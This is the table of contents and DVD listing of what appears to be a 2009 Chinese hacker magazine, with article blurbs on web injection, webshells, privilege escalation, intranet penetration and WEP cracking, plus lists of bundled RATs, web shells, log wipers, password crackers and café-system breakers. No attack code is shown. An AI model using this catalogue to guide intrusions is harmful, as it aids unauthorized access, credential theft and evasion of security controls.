编程思路：登录校内网→获取页面出现的所有 URL→筛选出主页来访或留言的 URL→逐个访问并留言→最后随便看看（随机访问校内网的注册码页）。

### CRACKER

- 307 10086&每月破资源
- 308 简单分析“国外下载者 Priv8 Download3r 2.2”

看看下载者程序一般都有什么功能？
第一、先指定 URL 下载路径。
第二、下载的文件存放到哪里。
第三、是否加壳处理。
第四、通过注入 IE 进程达到了下载的目的。

- 310 PDF Exploit 解密

本文主要是介绍 PDF Exploit 解密的方法，PDF Exploit 是一种恶意的文档，也就是相当于一个病毒。关于 PDF Exploit 的解密方法，教程还是比较少见的，所以这一期选取一篇给各位读者补补基础。

# 读编互动

- 312 Q&A
- 313 29 号信箱

# 新闻时评

- 315 虚拟产业的安全问题

### 安全导航

- 316 局域网安全点点滴滴

何为维护通道呢？可能有些朋友听说过吧？所谓的维护通道，从概念上来说是为自己将来对下面的客户机在还原保护的基础上留下一个后门，权限在你手上，你可以远程调用某些东西来实现自己的目的，比如最常用的是批处理。因为在你实行调用的时候要从客户端跟服务器端进行通信，所以首先你要在两者之间架起一个通道，也就是维护通道。

- 321 lpk.dll 病毒群的查杀

经过一番查找，发现 mm 电脑上凡含有 .exe 文件的文件夹都无法删除，把资源管理器设置中“隐藏受保护的操作系统文件”的对勾去掉后发现文件夹里都有一个属性为隐藏的 lpk.dll 文件。到网上搜索得知，360 顽固木马专杀工具可查杀该病毒，马上下载安装运行，但结果是病毒依然存在，于是我只能从 lpk.dll 文件入手，看看这个病毒文件有没有什么可用的信息。

- 322 强化 Apache 消减 DDoS 攻击

很多系统工程师都遇到过自己管理的 WEB 服务器被 DDoS 攻击，偶尔流量暴涨也就算了，但三天两头被别人这么搞，肯定是火大。那么你除了找 IDC 和调整投诉等方法外，有没有其它办法可以保护我们的 WEB 服务器呢？

- 323 阻止网站挂马的实用技术

## 肉鸡摆龙

- 325 ECShop 注射漏洞批量拿 webshell

继 shopex 不久前爆出漏洞后，又一个用得比较多的网店系统 ECShop 也爆出了注射漏洞。利用该漏洞，可以很轻松地拿到 webshell，受影响的版本为 2.6.1 以及以下的所有版本。

# 菜鸟恶补

- 326 数据包也疯狂（五）

接着上期的内容，本期通过一个封包修改的实例对前四篇文章提到的知识进行综合利用，目标系统是一套 XX 学习系统，这套系统功能强大，学习的方法很具创新性，个人认为如果认真去做完它的话确实可以有效地提升英语水平。功能强大，目的也是好的，这两点不抨击它。但是在网络通信加密方面做得就很差了，很不应该地采用了明文传输数据包，如果程序员能够更多地考虑安全问题这一块的话，这套系统会更加安全，也会被更广泛地使用。

- 328 浅谈操作系统原理（二）

# 合订本目录

- 330 菜鸟实验看 Windows 共享机制
- 354 超 BT 服务器的提权

配置文件下载下来，心想事情就变得很简单了。可把数据库下载出来有三个管理员用户，用 cmd5.com 一个都没有破解出来，后台地址也删除了，看来管理员还是有一些安全意识的。心想旁注一下下玩玩吧！

- 356 MySQL 账号安全大解析

### 酷玩

- 332 玩转手机 QQ
- 333 网络揭秘——网上开店刷留言
- 334 绕过 QQ 验证强加好友

在使用 QQ 的过程中，有的时候想加某一位自己很感兴趣的人，却因为对方设置了“回答问题”这样一种身份验证，而无法直接加其为好友。绕过“回答问题”这种身份验证其实有两种方式：一种就是广为传播的腾讯 TM 法，还有一种就是鲜为人知的网页 QQ 法。

- 334 快速鉴别 QQ 好友是否隐身

# 黑小说

- 335 特仑苏 III
- 337 下在墙头上的乌鸡蛋

这是在“黑手”上很少能见到的小说类型，从误会到释怀，最后选择皆大欢喜的结局。人们一定要把事情了解清楚再做决定，不然有了误会，真的要郁闷了自己，伤害了别人。呵呵。希望“黑手”的读者们在平时的工作或生活中，和自己的亲人和朋友多聊聊，不要只顾玩电脑哦。

# 新闻练练看

- 338 《未被引起重视的 BBSXP2008 注入漏洞》续谈

很巧的一篇文章，其中非常快捷地完成了我们以前刊登的文章中说到“无法完成”的任务，其思路非常清晰。另外，在分析完原理以后，编写辅助工具完成猜解，也是一个值得借鉴的模式。

- 339 黑吃黑大战——利用 HZHOST 最新漏洞渗透黑客红人馆

相信了解虚拟主机的朋友对 HZHOST 域名虚拟主机管理系统都非常了解，这是一套使用人数众多的功能强大的域名主机管理平台。因为其简单易用、比较容易上手，所以目前国内大多数的站长朋友都使用它来对自己的虚拟主机产品进行管理。

- 341 新型万能登录密码

本文毫无技术含量，只是提供一个思路，思路来源于前不久爆出的那个 eWebEditor 2.1.6 版本的上传漏洞。对于过滤了单引号或者做了 POST 防注入的站点，此方法也无能为力了，但对于很多对答逻辑没做好控制的网站，此方法值得一试，尤其是你已经知道源码却还不能执行命令（ACCESS 数据库），或者对方能报错（MySQL 数据库）。

- 342 Cookies Injection 之自我理解

# 西线无战事

- 343 渗透少年黑客网站

编辑点评：其实入侵的思路和你平常积累的知识有关。像一个人如果长期学习 PHP+MySQL，自然而然地会首先想到如何用 PHP 来提权，之后才会去想其它的方面。学习黑客固然要了解各式各样的入侵方法，但是不能过多依赖，必须专注埋头学习，能够达到某种技术层面的深度才是对的。

# 高手专栏

- 357 无线攻击技巧系列之一：让 VMware 也能使用 PCMCIA 无线网卡

对于无线安全审计及渗透测试而言，多数无线黑客及无线安全爱好者，会在笔记本上采用双系统或者多系统启动的方式，来进入 Linux 驱动 PCMCIA 无线网卡。但是，在硬盘上采用多操作系统并存的方案所带来的物理安全隐患及使用的不便，将随着时间的推移日渐明显。

- 359 域内网入侵之二：系统用户的密码收集以及利用

# 窗外

- 361 Linews
- 362 破译“黑匣子”：利用日志信息防范 Linux 入侵

日志记录了系统每天发生的各种各样的事情，这些日志信息是保障系统安全过程中的重要组成部分。通过这里，可以对入侵者实施相对应的防护。而且，这也是一种安全防范思维延展，即利用日志里的“蛛丝马迹”，配合安全小工具，轻松解决 Linux 网络管理员的后顾之忧。

- 364 详细讲解无线 WEP 加密破解三步曲

## 快码加编

- 367 从 0 开始学习 Asp.net

Asp.net 作为微软主推的基于 .NET 平台下的 Web 开发技术，自然有很强的竞争性和强大的功能，而且 Asp.net 相关技术也随着 .NET 平台版本框架的升级而更加地强大和健全。所以在此背景下，我觉得有必要和读者朋友说下你们了解这门技术。下面我们来揭开 Asp.net 神秘的面纱吧。

- 368 关于 U 盘恢复精灵的一些改进

在 2009 年 03 期的杂志上看到一篇声泪俱热的“U 盘恢复精灵”的编程文章，经本人使用后发现一些问题，其源程序的不足之处在于获得 U 盘盘符的装入变动。在我的机器上 U 盘盘符变 K，使用其程序时明明存在 U 盘，却提示 U 盘不存在。

- 368 反弹木马编写之文件传输
- 370 漫话溢出 IV

从最初的以原始方式编写 shellcode，到现在的可以用工具简化 shellcode 的编写过程，甚至直接生成特定功能的 shellcode。从原来主要靠 C 写溢出程序，到现在的在某个 framework 下写溢出程序，溢出的相关技术在不断进步。

- 374 Delphi 也来编写 QQ 密码读取器

### 新书试读

- 377 《黑客渗透笔记》union 注入技巧
- 379 《黑客词典》试读

这本书所包含的词汇是《非安全·黑客手册》杂志与笔者几年来从各种黑客技术类文章与书籍收集而来。相对于英文词汇，这些中文词汇在我们平时的学习中碰到的几率也更多，所以在你碰到不熟悉的词语时，这本书可以很好地帮助你。

# 合订本目录

### CRACKER

- 380 每月破资源
- 380 再战未杀号的脱壳——ESP 定律的妙用（二）

上一次给大家介绍 ESP 定律的妙用，这一期我们继续来学习。熟练地掌握好 ESP 定律的用法，是能够脱很多壳的，虽然这个对付不了强壳、猛壳，但却是普通壳的必杀招。这一次依然给大家带来病毒类程序的目标练习文件，所以请保证您处于虚拟调试环境下，否则产生的一切后果，请自己负责。

- 382 逆向工程打造粘滞键隐藏后门有感

# 读编互动

- 384 Q&A
- 385 29号信箱

# 新闻时评

- 387 “网络实名制”，真的很危险！？

### 肉鸡接龙

- 388 风暴中的暴风 0Day

2009 年 4 月 30 日，日使用 1700 万次的知名媒体播放器软件“暴风影音”连续爆出两个重大漏洞，时间正值五一放假的前一天，很少有人注意到了这条消息公告。甚至可推断，“暴风影音”的开发者都认为可以等到国庆节之后再处理这两个漏洞。按照以往网络安全界的惯例，黑客在获取漏洞信息后，最多也要一周之后才能够研发出相关的利用工具。

### Q版黑客

- 391 窃取 Firefox 保存的密码
- 392 将 DRCOM 账号共享进行到底
- 393 利用 WinPE 突破网吧还原系统
- 394 自己 DIY 专杀工具
- 396 JAVA 游戏的破解
- 396 在 Vista 系统中扫描更加快速

每当有危害性极大的计算机病毒出现时，杀毒软件服务商都会推出免费的专杀工具供计算机用户下载和使用。可是常言说得好：“求人不如求己”，所以我们不如自己编写相应的专杀工具，从而还可以学到很多病毒防护方面的知识。

# 菜鸟恶补

- 398 浅谈操作系统原理（三）——操作系统管理 CPU

### 酷玩

- 400 3G QQ 我这样玩
- 401 QQ2009 实现本地会员功能（去广告、红名等）
- 402 QQ 游戏免费刷欢乐豆的方法
- 403 如何下载 QQ 空间音乐

### 土豆的采访

- 403 空气中的战争——采访无线安全专家杨哲[longas]

# 新洞练练看

- 407 Qvod 电影系统之 XSS 钓鱼
- 409 PHP168 整站系统之 CSRF 攻击
- 411 DiggCMS 系统漏洞分析与利用
- 414 LeoBBS 远程代码执行 0day 分析
- 415 可笑的 PJBlog 注入——双引号的注入
- 417 花木兰留言本 0day 分析与利用
- 418 针对 ART2008! CMS 3.1 漏洞的发掘与分析
- 420 你是如此的可怕——记对中联企业网站管理系统 V9.9 的源码分析

DiggCMS 是一个基于内容点评推荐的 Web 2.0 内容管理系统，而且还是完整开源的，它的功能强大，但是安全性还需要加强。文章中将会讲到 DiggCMS 系统中的两个漏洞，一个是 SQL 注入漏洞，另一个是系统后台 Cookie 欺骗漏洞，危害性较大，只要知道管理员账户就可以利用后台 Cookie 欺骗漏洞进入网站后台……

LeoBBS 是一款用 Perl 程序编写的论坛程序，在如今论坛程序百家争鸣的状况下，LeoBBS 早已成为不再，Google 一下也只有 5 万多条记录，下面就其最新版本 LeoBBS X Build90206 中出现的远程代码执行漏洞进行简单的分析。

PJBlog 是由舜子所开发的一套开源免费的中文个人博客系统程序，采用 ASP+Access 的技术，同时支持博客中文、UTF-8 编码，相对于其它系统，PJBlog 具有相当高的运作效能以及更新率，也支持目前 Blog 所使用的新技术。

花木兰留言本文件很少，一个首页文件 index.asp，一个数据库连接文件 guestbook_Conn.asp，然后是默认的数据操作文件 dguestbook.asp 和一个函数文件 guestbook_sub.asp，因此分析漏洞只能从其中三个文件入手：index.asp、guestbook_Conn.asp、guestbook_sub.asp。

本来在网上看到 3.0 版，觉得挺漂亮的就下载下来分析。当分析完成后，官方已经做更新了，所以又下载最新的 3.1 版本做测试。

# 西线无战事

- 423 我对 X 家地产的漫长渗透
- 429 巧藏动易 2006 后台管理账户，做真正的“幕后英雄”

总的来说，这次渗透是漫长的，但也不是完美的，有两个内网，因为只要拿下一台机器就等于拿下一个内网了，而第一个内网也就是一个地区的分店，每个店的账务只能看自己区域的房源信息，而不能看其它地区的房源信息。X 家在某个城市一般是有 N 多分店的，估计数据库都是在那个 HERP 管理系统里，不过我找了好久也没发现有漏洞。我觉得这次渗透还是比较满意的，因为从中自己也学到了新的知识，复习了已经掌握的技术。

本文写的是如何巧妙搞动易 2006 后台管理账户，根据这篇文章你可以延伸一下思路。

- 430 Update 后门之反弹 cmdshell — swan
- 432 渗透某大型内网 — 樱花浪子
- 435 代码获取记录 — fjhh
- 437 轻松进入 pcook 官方网站 — rabbitsafe
- 439 绕过 WINDOWS 自定义错误继续入侵 — 耗子

# 高手专栏

- 442 Psh-toolkit 在内网渗透的应用 — Mickey
- 443 Group_concat 函数终极利用

晓华[岁月联盟信息安全团队]

- 445 无线攻击技巧系列 2——搜索及发现内网非授权无线路由器 / AP 技巧 — Christopher Yang / 杨哲[ZerOne]

# 窗外

- 450 Linews
- 450 使用 SSH 做 Socket5 代理 — Mickey

我们在得到 Linux 肉鸡的时候，常用来做什么？不如也用 SSH 做个 Socket5 代理吧。这样以后访问网站的时候，就能隐藏自己的 IP，如果是国内网段的 Linux 肉鸡的话，还能够绕过 GFW 的限制呢(-_-)!

## 快码加编·编程源起

- 452 从 0 开始学习 asp.net（二） — 4lert[H.S.G]

前面我们了解了一些关于 asp.net 的基础概念，本期让我们来深入地学习和了解这门技术。这回我们将学习到 asp.net 中变量的声明及使用，还有 session 的使用及 asp.net 字符串的处理方法。

- 453 易语言打造 UPX 加壳小助手 — 仿心の雨

某日，在机子里乱翻，无意中找到一个 UPX 加壳文件，是命令行模式的，感觉用起来特不方便。刚好自己最近又在学易语言，就亲手操刀编了一个可视化的 UPX 加壳小助手！

- 454 分析和编写 PHP168 文件源码泄漏工具 — 冰海 [LOVEGN]（安天团队）

今天在团队 QQ 群中看到 Men_Si 发来的 PHP168 文件源码泄漏工具，在这里我想和小菜们一起来分析下，只有弄明白了漏洞的原因，才能有所提高，然后根据分析写出自己的漏洞利用工具……

## 快码加编·编程上路

- 456 关于 DLL 模块加载规则在入侵中运用的一点思路 — Allen_HW[江苏大学计算机（网络）系]

Windows 进程对于 DLL 模块的加载有着自己的一套规则，下面就让我们一起来认识一下这些规则。

### CRACKER

- 458 每月破资源 — 10086
- 458 介绍两种 VB 程序的破解新方法 — 风飘雪
- 460 去掉 SysinternalsSuite 工具集对话框验证 — 武大信安 罗成[starmate]

本文介绍了 VB 程序破解的两种新方法，国内外各破解论坛未见提及，今日奉献，希望读者能够喜欢并给予推广使用，则笔者不胜欣慰！

# 读编互动

- 461 Q&A — 徐师傅
- 462 29号信箱

定价：29.8 元

# DVD 目录

注意：可能目录部分内容与光盘中的最终内容有所差异，请以光盘中的内容为主，谢谢支持。本光盘部分软件均由 WinRAR 工具压缩，使用之前请先解压，我们建议小菜们先安装虚拟机软件，然后再在虚拟机中进行一些软件的操作，以防自己的电脑系统因一些操作或者不明原因而造成破坏。安装本文中可安装使用暴风影音播放，该档文献或教程可使用 PDF+PDG+WDL 三合一阅读器或 CSF 文件播放器。

## 手册相关

### [0901]

- Discuz 6.x/7.x 批量拿 SHELL 工具
- 六度 IE7 0day 网马生成器
- apache_2.2.9-win32-x86
- php-5.2.6-Win32
- phpStudy
- WinsockExpert V0.6 汉化版
- QQ 聊天记录查看器
- ZV 新型 PHP 一句话木马客户端 GUI 版、阿 D 注入工具
- FileZilla_3.0.9.2
- VMProtect 简体中文帮助 + 使用手册
- FastScanner v2.0 English version
- 查壳工具 FastScanner v2.0 汉化版
- 附加数据提取查看器 V1.2
- ……

### [0902]

- 拆字工具
- 半羽 QQ 多功能查询器 v2.2
- 迅雷快车旋风地址转换器
- 注入中转站 WebHunter 3.0 正式版
- 抓包工具 WinsockExpert V0.6 汉化版
- 上帝之门
- COOKIE 注入工具龙月版
- Windows CE API 手册 v2.0
- Windows 核心编程
- ……

### [0903]

- IIS 组件安装包（XP/2003）
- SkSockServer 1.09
- SocksCap V2.38
- GetMusic
- QuickSpoof
- JSP 一句话木马客户端
- 内网渗透之神奇兵器 reDuh
- URLScan
- 批处理潜行者 3.0
- ACKiller 0.31
- TestBook1
- UIF-12-Final
- ……

### [0904]

- Ethereal 使用手册中文版
- 多功能转换工具
- 无线钓鱼能手 Airsnarf
- 无线包裹加工站锻造宝物的 WifiZoo
- QQ 游戏大厅多开显身版 V2.0
- QQ 游戏宝盒
- 校内网自动留言增加人气 .exe 及代码
- shopex 4.7.2 利用程序
- 黑刀 DeZender 3.0
- ……

### [0905]

- OllyDBG
- PEiD 0.95
- 花都剑盟机器狗防御程序 7 月 4 日新版
- 维护通道相关程序
- HOSTS 修改器
- ASP 在线解压工具
- 防止挂马的 ASP 源代码
- 中文 BT3U 盘全套工具
- 硬盘启动引导
- bt3-final.iso
- lanker 一句话
- SA 综合利用工具
- ……

### [0906]

- Oracle 数据库执行 cmd 的 2 种方法比较
- 利用 ORACLE 开远程终端服务动画
- 通过 ORACLE 用户默认设置获得服务器权限
- JspSpy 黑客手册专版
- 纵横杂志
- 暴风影音 ODAY 网码生成器
- ha_HexWorkshop
- proxythorn
- 诺基亚 S60 2.0 FP1 系列
- 灰狐驱动学习笔记系列
- QuickUnpack_v2.1
- Armadillo Find Protected V1.9
- VB Decompiler Portable Pro v5.0
- vbaStrCmp_v2.1
- Art2008CMS(Free)3.1
- post 提交工具

## 操作系统

### [BackTrack]

了解 BackTrack：BackTrack 3 是用于 Linux 的安全测试工具，系统内集成了很多不同用于安全的应用程序和其它分析平台。在 WEP 破解方面据说很强大，桌面环境也比较绚，其功能强大，几乎兼容了目前所有的通常客户端，包括 QQ，内置也有不少服务，如 BEEF、HTTP、SNORT、SSH、TFTP、VNC 等。

- ISO 下载
- BT4 中文包
- 用 BackTrack 破解 Web 密码 3 分钟教程
- BT3 下常用指令
- BT 官方视频教程
- BT3 下破解共享密钥认证的 WEP 密码
- 从零开始教你如何破解 WEP、WPA 无线网络
- BackTrack 使用全解－基础安装篇 V1.0
- BackTrack 使用全解－WEP 破解篇 V1.0

### [ReactOS]

了解 ReactOS：ReactOS 是一个开放与 Windows NT 和 Windows 2000 应用程序、硬件驱动程序兼容的开源操作系统项目。本项目目前虽然只是处于内部测试（alpha）开发状态，但到 2005 年 1 月其中一些子项目已经完成了目标。

ReactOS 主要是由 C 语言编写，部分元件则由 C++ 编写，例如 ReactOS 文件浏览器。

为确保操作系统没有任何一部分是透过泄露出来的 Microsoft 源码的人所写，或者逆向工程的过程达不到 Clean room design 标准，一个全新的源码库营运 ReactOS 主要开发者下令展开。此项重现正与 ReactOS 的开发同步进行中。

- ReactOS-0.3.9-REL-iso.zip
- ReactOS-0.3.9-REL-liveCD.zip

### [Ubuntu]

了解 Ubuntu：Ubuntu 由马克·舍特尔沃斯创立，其首个版本于 2004 年 10 月 20 日发布，并以 Debian 为开发蓝本。但其以后每六个月发布一次新版本为目标，使得人们得以更频繁地获取新软件。而其开发目的则是为了使个人电脑变得简单易用，但亦有提供服务器版本。Ubuntu 的每个新版本均会包含最新版本的 GNOME 桌面环境，并且会在 GNOME 发布新版本后一个月内发行。与以往建基于 Debian 的 Linux 发行版，如 MEPIS、Xandros、Linspire、Progeny 与 Libranet 等比较起来，Ubuntu 更接近 Debian 的开发理念，因为其主要使用自由与开源软件，而其他的发行版则会附带很多封闭的软件。

- ISO 下载
- wubi 安装 Ubuntu 9.04 失败的原因及解决方法

### [puppy]

Puppy Linux 是由 Barry Kauler 主导开发的一个以体积小、速度快而闻名的小型 Linux 发行版。

# DVD 目录

## 工具集合

### 【远程监控】

- NCPH 远程控制软件 5.0 正式版
- NS 远程管理工具 2008VIP 破解版
- Nuclear RAT 2.1.0 汉化版
- PCshare
- Radmin V3.2 Remote Control
- Symantec PcAnywhere V12.0 特别版
- Win-Spy
- 上兴远程控制
- 国产冰河
- 幻影 Rootkit 4.901 破解版
- 户外男生远程控制
- 流萤 2.3 Bate1 发布版
- 灰鸽子远程控制
- 炽天使远程控制系统 3.0
- 网络神偷
- 网络红娘 1218_HacKFFBI[CNDBG]完美特别版
- 远程控制任我行 V7.6
- 远程控制任我行
- 黑洞远程控制
- 黑雨正版最新远控脚本注入
- Casiv 4.0 Pro（PHP 注入）
- Domain3
- HDSI
- NBIS2 商业完美破解版 911 群专用版
- Pangolin 穿山甲
- 啊 D 之 SQL 注入工具
- 桂林老兵网站安全检测工具 WebTool
- 注入中转
- 网吧工具
- PUBWIN 充值一条龙
- Pubwin4 密码清除器
- 万象幻境普及版密码破解器
- 万象网管专家专业版 2R 最新版破解器
- 局域网查看工具
- 方竹管理密码破解器
- 灵鸠金镖
- 破解网吧还原工具包
- 破解网吧还原精灵的工具
- 硬盘还原卡密码破解工具
- 精锐网吧辅助
- 网上邻居密码瞬间破解器
- 网吧死机攻击器
- 美萍卫士密码破解器
- 美萍卫士理解锁器
- 美萍反黄专家密码破解器
- 美萍安全卫士 9.0 密码破解器
- 美萍计费幽灵
- 还原精灵 6.1 密码破解程序
- 还原精灵卸载清除工具
- 还原精灵网络版以及 BIOS 密码读取工具
- 还原精灵转存大师

### 【综合工具】

- C32Asm
- Desktops
- OllyICE
- S-Demo 录象专家
- UltraEdit-32 官方简体中文版
- VMware-workstation-5.5.0-18463
- W32dsm
- WAP 浏览器
- putty
- serv-u 综合利用工具
- winhex 16 进制编辑器
- winscp
- 冰刃
- 屏幕录像专家
- 辅臣数据库浏览器
- 逍遥迷你 ASP 服务器

### 【扫描检测】

- 4899 空口令探测扫描工具
- Blue's Port Scanner v5 GUI + v4 CMD 汉化版
- HScan v1.20
- IISputscanner
- IPTools V2.50
- Nmap-v4.76
- SHED 1.01 共享扫描器
- SuperScan V4.0 汉化版
- S 扫描器
- WebDAVScan
- WhoisThisDomain v1.31 汉化版
- X-Scan v3.3 简体中文版
- X-ray26
- pcanywhere-扫描器
- ssport
- tomcat 扫描器
- wis（WEB Injection Scanner）
- 啊 D 网络工具包
- 旁注综合检测工具 Domain

- 流光 FluXay 5
- 密码工具
- ADSL 爆破工具－火狐修改版
- Advanced Office Password Recovery 4.12 专业版
- FTPPasswordRecovery
- MD5 批量破解加密 V2.0（引擎版）
- Multi Password Recovery 1.0 Release 汉化版
- PLC 密码查看工具
- Serv-U 纯数字密码爆破工具超速版
- Word 密码读取
- ZIP 压缩文件密码恢复软件
- dialupass
- netpass
- pcanywhere 密码读取
- 快速密码破解器工具
- 星号密码查看器

### 【后门工具】

- CleanIISLog IIS
- IIS 日志粉碎机
- IP 发送者
- Ntrootkit
- PHP 木马
- Winshell 5.0
- aspx 木马
- elsave
- jsp 木马
- lanker 微型 PHP+ASP 管理器 1.0 双用版
- wollf
- 全套 asp 免杀木马
- 冰狐浪子微型反向 ASP 后门
- 日志清除工具九合一
- 端口连接隐藏工具
- 黑客之门（hacker's door）

### 【入侵必备】

- 3389 系列工具
- Fport
- Hide Admin
- IIS 写权限利用工具
- NC
- NTLM 验证解除工具
- Opentelnet
- Pulist_FindPass
- SQLhello2
- SQL 综合利用工具
- Serv-U 提权综合工具
- Serv-U 本地管理口令读取器
- Serv-U 端口定向提权
- SkSockServer 跳板工具
- TFTP32
- VNCLink
- VPNClient
- Wget
- WinSock Expert
- 入侵助手 1.0
- 对付没有开放 IPC 共享工具
- 攻击工具集合
- 溯雪 Beta 7
- 老兵的 cookies 修改工具
- 远程溢出工具集合
- 黑客新手工具包

## DVD目录

## [扫黑客工具珍藏版]

音速启动（VStart）V5.0 Build 2009.4

- 以下分类均带不同操作系统工具：
- 防火墙
- 蠕虫
- 网络工具
- 编程相关
- 木马
- 攻击程序
- 拒绝服务
- 扫描器
- 完整检查
- 嗅探器
- 后门程序
- 口令破解
- 加密隧道
- 加密解密
- 其它工具
- 入侵检测
- 代理程序

## 学习资料

## [动画教程]

- radmin远程控制动画教程
- 冰河使用动画
- 流萤远程控制使用教程
- 灰鸽子远控使用教程
- 网络神偷使用教程
- SAMBA之share级别服务搭建入门教程
- samba之user级别服务搭建入门教程
- 端口映射技术扫盲篇(1)——概念解析
- 端口映射技术扫盲篇(2)——必备知识
- Unauthorised Access Hacker Documentary（无字幕）

## [电子书]

- ASP脚本攻防手册
- UNIX简单入侵
- Visual C++ 6.0编程经典博览
- 电子书《黑无止境（Hackendless）第二版》中文版
- 黑客入侵的艺术
- 黑客大曝光——网络安全机密与解决方案（英文第五版）
- 黑客资料排行榜
- 《Windows 7 Beta产品指南》中文版
- 《Windows 7 Beta产品指南》英文版
- Hardware hacker（硬件黑客）

## 影视欣赏

## [操作系统革命 Revolution OS]

中文名称：操作系统革命  
英文名称：Revolution OS  
语言：英语  
导演：J.T.S. Moore  
字幕：中文／英文（不能切换，同时出现在屏幕下方）  
时长：85分钟  
类型：纪录片

内容简介：

在微软垄断下，有一件东西它永远不会给你——真正的自由。也正是因为这个原因，不少先锋人物站出来反抗微软帝国，并努力建立一种新的操作系统——没有人为的约束，任何人都可以自由地使用。

为了记录这些人的艰苦历程，J.T.S. Moore拍摄了全新的纪录片——REVOLUTION OS，向公众介绍这些建立Linux操作系统、奋起反抗垄断的斗士的人生经历。

现在微软已经明显感到来自Linux的压力，其首席执行官去年6月公开表示：“Linux是一种癌症！”，但这丝毫不能影响Linux发展的势头。

本片中记录了Linux的创建人Linus Torvalds以及Richard Stallman、Bruce Perens、Eric Raymond、Brian Behlendorf、Michael Tiemann、Larry Augustin、Frank Hecker、Rob Malda等人的生活经历及采访实录。

## [硅谷传奇]

中文名：硅谷传奇  
英文名：Pirates of Silicon Valley  
别名：微软英雄  
导演：马蒂·布克

剧情简介：

个人电脑在现代人的日常生活中日渐不可或缺，但有多少人知道世界最大的电脑公司“苹果”和“微软”当初是如何崛起的？本片就带领观众一窥其中的秘辛。诺亚·怀尔与乔伊·斯洛尼克饰演苹果电脑的创立人史蒂夫·乔布斯和史蒂夫·沃兹涅克，安东尼·迈克尔·霍尔饰演由乔布斯刺激演变成微软电脑王国的比尔·盖茨和史蒂夫·鲍尔默。

这四个充满远见的年轻人，晚上在宿舍内绞尽脑汁、苦思良策，白天则在校内进行偷来抢注的斗智，展开一场延续至今、改变了整个世界的全球电脑大战。

（PS，本地片商曾将本片取名为「微软英雄」，但故事内容其实是以苹果电脑的崛起史和其乔布斯为主轴，微软电脑的比尔·盖茨在片中不能算是第二男主角，而且还是个不折不扣邪恶的大反派。）

## [特选MV]

- The Climb
- Fly On The Wall
- 7 Things Official

首页的MV可是“猪哥哥”光搜集费了好大力气才找到的高清版本，目前国内还没有提供下载。歌手Miley Cyrus（麦莉·赛勒斯），生于1992年11月23日，在她很小的时候妈妈就过世了，她有两个哥哥和三个姐妹。由于她喜欢笑，所以家里人把她喊做“Smiley”，后来便取名为“Miley”。麦莉有个在美国乡村音乐界非常大名的老爸——Billy Ray Cyrus，他曾凭歌曲《Achy Breaky Heart》（疼痛的破碎之心）红极一时，也是知名电视剧《大都市小医生》的男主角。

因为爸爸的关系，麦莉很小就开始表演，2003年便开始了她的职业表演生涯，“重头”角色就是在蒂姆·波顿的《大鱼》中扮演的Ruthie。

从小麦莉就对音乐产生浓厚的兴趣，在很小的时候便开始写歌和学习唱歌。在05年的时候她终于可以把自己的音乐发挥在工作上，她在美国迪士尼频道的电视剧《孟汉娜》中饰演女主角。麦莉饰演的角色叫Hannah Montana，是一个一年级14岁的儿童明星，她早上在学校上课，叫Miley Stewart，晚上去后台上演出，叫Hannah Montana，同学们都很喜欢Hannah Montana，但不知道Miley Stewart和Hannah Montana其实是一个人，在这一部超搞笑的青春喜剧中，麦莉饰演人格分裂的两个人。

《孟汉娜》在美国非常火，在播放开始就吸引了540万人收看，迪士尼顺势推出剧集的原声碟《Hannah Montana》。因为剧集受欢迎，原声碟发行第一周就以28.1万张的销量空降Billboard 200专辑榜冠军，成为Billboard全美专辑榜史上首张排行第一的电视剧原声大碟。而在HOT 100单曲榜中，原声碟中的六首都上榜，让《Hannah Montana》成为1991年Nielsen SoundScan和Nielsen BDS数据统计系统启用以来，拥有上榜单曲最多的一张专辑。今年3月，《Hannah Montana》的原声大碟再版。

不仅如此，迪士尼还将该剧续集的游戏版卖给任天堂，任天堂为它设计了两款游戏，NDS版的《Hannah Montana: Music Jam》是包含吉他和鼓点的节奏游戏，而Wii版则是伴随音乐按键的舞蹈音乐游戏。

不要以为麦莉只是会唱唱闹闹的小女生，实际上除了演戏、唱歌，她还是一位创作强人。《Hannah Montana》里面的歌曲都由麦莉自己创作并演唱，她唱了8首歌，还与爸爸合唱了一首。

2008年初，麦莉的首张合辑《麦莉·赛勒斯演唱会纪实》一举夺得了3周北美票房榜冠军，虽然“超级碗”赛事使得本片“有机可乘”，但也充分说明了麦莉在青少年观众中的巨大影响。如今，麦莉为迪士尼英雄动画《明星狗》配音，目前她正拍摄一部新片《乖乖女是大明星》，仍是以少女明星孟汉娜为主角。

# 非安全入门手册

NO 2009.01

黑客手册

中国计算机安全法律提醒你，非法入侵他人电脑是一种违法行为。© 黑客 © 文化 © 娱乐 本手册随光盘赠送 WWW.NOHACK.CN 售10元




## 黑·牛

过得很快，真的很快！也许是去年发生的令人记忆犹新的事太多了吧。伤悲与快乐就让它随着冬日的寒风远去，那已经成为昔日的记忆，让我们收拾好心情，迎接即将到来的2009吧。

2009年1月25日，中国的春节即将到来，意味着我们的报表按鼠标器的按下心态，重振气吞牛斗、气壮如牛的豪情壮志！

当然，激情过后记得休息，不然就成气喘如牛了，呵呵。**记住：不懂得休息的黑客就不是好黑客！**

农历正月初五，又称为“牛日”，自秦汉以来，传统的看法是：正月初一为“鸡日”，初二为“狗日”，初三为“猪日”，初四为“羊日”，初五为“牛日”，初六为“马日”，初七为“人日”。

传说这是因为女娲创造万物生灵的时候，先造的六畜，后造的人，因此初一到初六都是六畜之日。看来这动物的等级是在不断地提高，最后才是我们人——高级动物的出现！

人类创造了文明，文明造就了社会，社会产生了黑客……做黑客，很多人都是兴趣使然，人们通过思想升华技术能力，看了资料就操起工具上马实战。虽然偶尔会获得成功，但真正明白了思路，那才是你最大的知识财富。

